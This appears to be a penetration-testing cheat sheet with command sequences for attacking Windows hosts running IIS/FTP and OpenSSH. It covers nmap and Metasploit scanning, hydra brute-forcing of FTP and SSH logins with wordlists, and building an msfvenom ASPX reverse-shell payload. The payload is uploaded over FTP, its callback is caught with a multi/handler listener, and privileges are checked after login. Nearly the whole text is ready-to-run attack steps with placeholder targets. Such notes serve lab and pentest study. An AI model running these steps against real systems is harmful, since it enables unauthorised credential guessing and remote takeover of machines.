 ```
db_import nmap_10k

hosts
services
use auxiliary/scanner/smb/smb_version
run
hosts
```

**IIS/FTP**

```
# Targeting IIS/FTP
nmap -sV -sC -p21,80 <TARGET_IP>
## Try anonymous:anonymous
ftp <TARGET_IP>

## Brute-force FTP
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> ftp

hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ftp -I
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ftp -I

## Generate an .asp reverse shell payload
cd <TARGET>/
ip -br -c a
msfvenom -p windows/shell/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f asp > shell.aspx

## FTP Login with <USER>
ftp <TARGET_IP>
put shell.aspx

## msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST <LOCAL_IP>
set LPORT <LOCAL_PORT>

## Open http://<TARGET_IP>/shell.aspx . A reverse shell may be received.
```

**OPENSSH**

```
# Targeting OPENSSH
nmap -sV -sC -p 22 <TARGET_IP>

searchsploit OpenSSH 7.1

## Brute-force SSH
hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ssh
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ssh

## SSH Login with <USER>
ssh <USER>@<TARGET_IP>

## Win
bash
net localgroup administrators
whoami /priv

# msfconsole
use auxiliary/scanner/ssh/ssh_login
setg RHOST <TARGET_IP>
```